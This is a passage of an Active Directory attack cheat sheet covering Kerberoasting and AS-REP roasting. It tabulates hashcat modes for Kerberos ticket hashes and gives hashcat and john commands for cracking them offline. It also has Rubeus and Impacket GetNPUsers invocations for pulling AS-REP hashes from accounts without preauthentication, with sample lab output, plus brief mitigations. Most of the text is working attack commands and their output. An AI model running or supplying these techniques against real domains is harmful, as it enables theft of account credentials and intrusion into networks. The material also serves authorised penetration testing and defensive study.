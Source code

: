 | Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```


Mitigations: 
* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

## KRB_AS_REP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

**Requirements**:
- Accounts with the attribute **DONT_REQ_PREAUTH** (`PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose`)

* [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast
  [*] Action: AS-REP roasting
  [*] Target User            : TestOU3user
  [*] Target Domain          : testlab.local
  [*] SamAccountName         : TestOU3user
  [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
  [*] Using domain controller: testlab.local (192.168.52.100)
  [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
  [*] Connecting to 192.168.52.100:88
  [*] Sent 169 bytes
  [*] Received 1437 bytes
  [+] AS-REQ w/o preauth successful!
  [*] AS-REP hash:

  $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
  ```

* [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite
  ```powershell
  $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
  [*] Getting TGT for svc-alfresco
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4

  # extract hashes
